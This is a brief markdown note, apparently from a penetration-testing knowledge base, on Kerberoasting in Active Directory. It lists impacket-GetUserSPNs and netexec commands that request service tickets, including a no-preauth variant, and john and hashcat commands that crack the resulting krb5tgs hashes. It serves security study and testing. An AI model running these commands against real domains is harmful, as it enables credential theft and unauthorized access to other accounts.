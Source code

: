 ```yaml
---
title: Kerberoasting Attack
description: Kerberoasting is a attack technique against Kerberos with cracking passwords using a credential already gathered.
tags:
    - Active Directory
    - Windows
refs:
    - https://www.thehacker.recipes/a-d/movement/kerberos/kerberoast
date: 2023-12-14
draft: false
---
```


## Attack

If we have a password hash of a user, we might be able to find another user credential using the hash.

```bash
impacket-GetUserSPNs -hashes <lmhash>:<nthash> example.local/username -outputfile hashes.txt
# Without pre-authentication
# -no-preauth: https://github.com/SecureAuthCorp/impacket/pull/1413
impacket-GetUserSPNs -no-preauth username -usersfile users.txt -dc-host <ip-or-host> example.local/


netexec ldap <target-ip> -u username -p password --kerberoasting output.txt
netexec ldap <target-ip> -u '' -p '' --kerberoasting output.txt
```

After finding hashes, we can crack it or use for pass-the-hash attack.  
To crack, run the following commands:

```bash
john --format=krb5tgs --wordlist=wordlist.txt hash.txt
# or
hashcat -m 13100 -a 0 hash.txt wordlist.txt
```